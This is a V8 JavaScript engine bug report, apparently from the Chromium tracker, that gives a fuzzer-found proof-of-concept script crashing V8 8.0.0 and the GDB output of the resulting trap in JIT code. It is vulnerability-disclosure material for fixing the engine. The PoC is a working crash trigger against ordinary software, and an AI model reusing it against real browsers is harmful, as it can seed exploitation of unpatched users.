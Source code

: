 UserAgent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36

Steps to reproduce the problem:
The following PoC found by fuzzing crashes the release build of v8 8.0.0 (commit a5376b7e8f647b69184c54462e48e2a4423aff44 on Nov 11th).

PoC:
function write(begin, end, step) {
  for (var i = begin; i >= end; i += step) {
    step = end - begin;
    begin >>>= 805306382;
  }
}

var buffer = new ArrayBuffer(16384);
var view = new Uint32Array(buffer);

for (let i = 0; i < 10000; i++) {
  write(Infinity, 1, view[65536], 1);
}

What is the expected behavior?

What went wrong?
Run d8 in GDB, you are expected to get the crash like below:

Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
0x00007ea999482bc3 in ?? ()

(gdb) x/10i $pc - 0x10
   0x7ea999482bb3:      test   %esi,0x0(%rcx)
   0x7ea999482bb6:      add    %al,(%rax)
   0x7ea999482bb8:      cmp    -0x20(%r13),%rsp
   0x7ea999482bbc:      jbe    0x7ea999482bfa
   0x7ea999482bc2:      int3   
=> 0x7ea999482bc3:      movabs $0xc800000000,%rcx
   0x7ea999482bcd:      push   %rcx
   0x7ea999482bce:      movabs $0x555557737f10,%rbx
   0x7ea999482bd8:      mov    $0x1,%eax
   0x7ea999482bdd:      movabs $0x7ebfeafc18c1,%rsi

Did this work before? N/A 

Chrome version: 78.0.3904.108  Channel: stable
OS Version: 
Flash Version: 

By Soyeon Park and Wen Xu at SSLab, Georgia Tech